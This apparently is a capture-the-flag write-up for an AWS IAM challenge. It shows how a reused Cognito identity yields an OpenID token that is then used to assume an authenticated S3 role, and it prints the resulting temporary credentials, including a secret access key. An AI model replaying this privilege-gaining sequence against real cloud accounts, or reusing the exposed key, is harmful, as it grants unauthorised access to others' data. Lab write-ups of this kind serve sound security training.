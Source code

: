 ## Challenge 6 - One final push
The given hint: 
> Anonymous access no more. Let's see what can you do now. Now try it with the authenticated role: arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role

The given IAM policy:
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
                }
            }
        }
    ]
}
```

The policy shows us, that the access control is federated to Cognito and we have the permission to assume a role using a web identity, but only if our identity is from the pool `us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b`. This is the same pool as in the last challenge, so we can reuse the previously gained Cognito ID. With this we can now get a OID token.

```
> aws cognito-identity get-open-id-token --identity-id us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856
{
    "IdentityId": "us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856",
    "Token": "LONG_OID_TOKEN"
}
```

With this token, we can assume the role of `arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role`.

```
> aws sts assume-role-with-web-identity --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role --role-session-name s3access --web-identity-token LONG_OID_TOKEN

{
    "Credentials": {
        "AccessKeyId": "",
        "SecretAccessKey": "Zz/6c7MRKJwUa1V+dzGZDaxfIkxmbPtB9rLv/mdm",
        "SessionToken": "LONG_SESSION_TOKEN",
        "Expiration": "2024-01-07T13:23:28Z"
    },
    "SubjectFromWebIdentityToken": "us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:s3access",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/s3access"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}
```
